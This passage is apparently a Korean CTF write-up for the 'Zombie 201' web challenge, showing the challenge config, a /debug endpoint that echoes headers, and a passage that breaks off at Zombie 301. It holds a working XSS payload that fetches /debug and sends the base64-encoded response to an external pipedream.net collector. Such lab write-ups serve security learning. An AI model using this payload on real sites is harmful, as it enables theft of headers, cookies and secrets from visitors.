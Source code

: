 ![z1](../../../assets/img/2023-03-20/z1.png){: w="700" h="350" }  
<br/>


## Zombie 201 (352pt)(solved)
***

`201`의 `config`는 다음과 같습니다. 이번에는 `httpOnly`가 `true`이기 때문에 `document.cookie`는 안됩니다.
```plaintext
configFile: '{"flag": "wctf{redacted}", "httpOnly": true, "allowDebug": true}'
```
{: file='docker-compose.yml'}
<br/>

`index.js`를 보면 `/debug` 엔드포인트가 존재하는데 `config.allowDebug`가 `true`면 요청 헤더를 모두 보여줍니다.  
```javascript
//index.js: 56

// useful for debugging cloud deployments
app.get('/debug', function(req, res) {
    if (config.allowDebug) {
        res.send({"remote-ip": req.socket.remoteAddress, ...req.headers})
    }
    else {
        res.send('sorry, debug endpoint is not enabled')
    }
})

...
```
{: file="index.js"}
<br/>

따라서 `fetch()`를 이용하여 아래와 같이 페이로드를 작성할 수 있습니다.  
```python
PAYLOAD = '<script>fetch("/debug").then(function(x){return%2520x.text();}).then(function(xx){location.href="https://eo83ud3n5uavhrd.m.pipedream.net/f="%252bbtoa(xx)})</script>'
```
{: file="z2.py"}
<br/>

봇이 방문한 `/debug`의 응답을 `base64` 디코딩하여 플레그를 얻을 수 있습니다.  
![z2](../../../assets/img/2023-03-20/z2.png){: w="700" h="350" }  
<br/>


## Zombie 301 (484pt)(solved)
***
이번에는 `allowDebug`가 `false`입니다.  
```plaintext
configFile: '{"flag": "wctf{redacted}", "httpOnly": true, "allowDebug": false}'
```
{: file='docker-compose.yml'}
<br/>
